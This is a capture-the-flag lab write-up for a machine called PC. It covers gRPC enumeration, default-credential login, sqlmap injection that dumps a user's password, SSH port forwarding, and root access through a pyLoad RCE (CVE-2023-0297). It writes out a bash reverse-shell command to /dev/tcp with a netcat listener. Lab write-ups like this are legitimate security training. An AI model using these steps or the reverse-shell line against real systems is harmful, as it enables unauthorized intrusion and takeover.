# Walking through PC

## Gathering Part

We began our journey by gathering information about the target and establishing a basic cartography of its structure.

To do so, we’re going to launch an `nmap` scan:

```console
kali@kali:~ sudo nmap -sV -A -p- -T5 10.10.11.214
````

I found a pretty common SSH service running on port 22 and a less usual **gRPC** service running on port 50051 (this could also be detected using `whatweb`).

### What is gRPC?

**gRPC** (Google Remote Procedure Call) is a high-performance, open-source RPC framework developed by Google. RPC is a concept where a program can execute a function on another computer (or server) as if it were calling a local function.

But let's get back to our business. We tried to see if we could interact and grab some banners using `telnet` on the gRPC port. Nothing, except for an encoded message.




Our next task is to find a way to communicate with our target. After further research, we found a tool named `grpcurl`. "It's like curl, but for gRPC." Using this command:

```console
kali@kali:~ grpcurl --plaintext 10.10.11.214:50051 list 
```

We could then see the available services on this server and retrieve a schema for them.

We could move forward with this tool, but we are more comfortable with a UI (that's my Windows side...).

There is a tool that could help us with that: `gRPCui`. It's a command-line tool that lets you interact with gRPC servers via a browser. Among the available endpoints, we could see **LoginUser**, **RegisterUser**, or **getInfo**.

We could then launch the next phase: gaining access to the system.

## Gaining access to the system by exploiting vulnerabilities

I went through the app and went to the login page. My first thought was to try the famous *admin:admin* credentials to log in. To my surprise, it worked.




We’re given an ID (162) and a token, which seems to be a JWT token.



We use our resources to get the composition of this token:



Looking for vulnerabilities related to gRPC, we could see that it is prone to SQLi. That said, we attempted to use sqlmap with the **getInfo** endpoint (by retrieving the request). We retrieved the request made to the **getInfo** endpoint.



Then, we launch our tool used to automate SQL injection testing using this command:

```console
kali@kali:~ sqlmap -r request.txt
```
It turns out to be successful and allows us to dump the password of a user (**sau**).



Attempting this via SSH is also successful. So, we gained access to our PC! Next step: looking through the system for any vulnerabilities that could allow us to escalate our privileges.


## Privilege Escalation

Among the first things to do on the machine: look for sudo capabilities. To do so, we launch the command:

``` console
kali@kali:~ sudo -l
```
Nothing to see here.

What comes next is to search for open ports exclusively for the local network on this machine, because there could be services running but not accessible to others.

Guess what? It's definitely the case: something is running on port 8000 and on port 9666.
Nevertheless, port 8000 is open only through the localhost address.




We tried to communicate with these ports. There's nothing better than using telnet to try it. 



We are talking to an HTTP service.

A simple `curl` helped us resolve our little mystery.

``` console
sau@pc:~ curl -v http://localhost:9666
```
We then discovered a website with an obscure endpoint used to log in. 

Knowing that we have SSH access to the system, we could use the SSH forwarding technique to see what’s going on. To do so, here is our command:

``` console
kali@kali:~ ssh -L 9666:127.0.0.1:1234 sau@10.10.11.214 -N
```

That's a pyLoad server. Looking for the version on the system, we found that it's **version 0.5.0**, and it's vulnerable to a pre-authenticated RCE (**CVE-2023-0297**).




We fetched a script here:



Right after, we set up everything we need for the exploit to work, which means:

- The listener on the port of your choice (`nc -lvnp 6789`)
- The command we want to launch (`bash -c '/bin/sh -i >& /dev/tcp/X.X.X.X/6789 0>&1'`)

And here we go!




That's a success; we're root!



We can now retrieve our flag from the /root directory.
